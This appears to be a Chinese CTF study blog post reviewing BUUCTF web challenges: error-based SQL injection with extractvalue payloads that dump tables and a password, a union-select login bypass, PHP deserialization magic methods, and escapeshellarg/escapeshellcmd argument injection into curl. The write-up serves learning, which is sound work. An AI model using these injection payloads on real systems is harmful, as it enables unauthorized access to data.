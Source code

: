 ```yaml
---
title: buu知识点复习(三)
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-08-31 10:08:05
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1098462.jpg
---
```

一、[强网杯 2019]高明的黑客--python多线程脚本
多线程脚本现在对我来说还是比较困难。估计模仿着勉强能写出来。
唯一的问题就是看到有些奇怪的正则表达式还是不知道啥意思，主要是格式要记住。

正则表达式符号大全：https://www.cnblogs.com/yirlin/archive/2006/04/12/373222.html
单线程脚本：https://www.cnblogs.com/xhds/p/12289768.html
多线程脚本：https://www.cnblogs.com/h3zh1/p/12661892.html
单线程写出来应该没什么问题，但是本题如果单线程估计要跑到心态爆炸。

二、[极客大挑战 2019]HardSQL--报错注入
首先来重新学习一下报错注入。

报错注入在没法用union联合查询时用，但前提还是不能过滤一些关键的函数。

报错注入就是利用了数据库的某些机制，人为地制造错误条件，使得查询结果能够出现在错误信息中。

1、xpath语法错误
利用xpath语法错误来进行报错注入主要利用extractvalue和updatexml两个函数。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200901004949.png)

0x7e=’~’
‘~‘可以换成’#’、’$'等不满足xpath格式的字符
extractvalue()能查询字符串的最大长度为32，如果我们想要的结果超过32，就要用substring()函数截取或limit分页，一次查看最多32位
这道题就是用的这种方法，两种都写一下：
extractvalue：
库：username=44&password=1'^extractvalue(1,concat(0x7e,(select(database()))))%23

表：username=44&password=1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables))))%23

列：username=44&password=1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23 
这里用like代替=号，因为被过滤了。

username=44&password=1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23

这里限制了回显位数，且substr被过滤了，要用到另外一个骚操作{left(),right()}
playload:username=44&password=1%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23


updatexml：
类似

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/976.jpg)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/6436347.jpg)

2、concat+rand()+group_by()导致主键重复
还没遇到过，后面再说吧。

三、[GXYCTF2019]BabySQli--sql注入
当查询的数据不存在的时候，联合查询就会构造一个虚拟的数据。
username栏：'union select 1,admin','e10adc3949ba59abbe56e057f20f883e'#
password栏：123456

四、[网鼎杯 2020 青龙组]AreUSerialz--反序列化
一个非常简单的反序列化，魔法函数的调用条件要记住。

__construct()当一个对象创建时被调用
__destruct()当一个对象销毁时被调用
__toString()当一个对象被当作一个字符串使用
__sleep() 在对象在被序列化之前运行
__wakeup将在序列化之后立即被调用

五、[BUUCTF 2018]Online Tool--PHP escapeshellarg()+escapeshellcmd()
https://paper.seebug.org/164/
1、传入的参数是：172.17.0.2' -v -d a=1
2、经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
3、经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
4、最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。






     

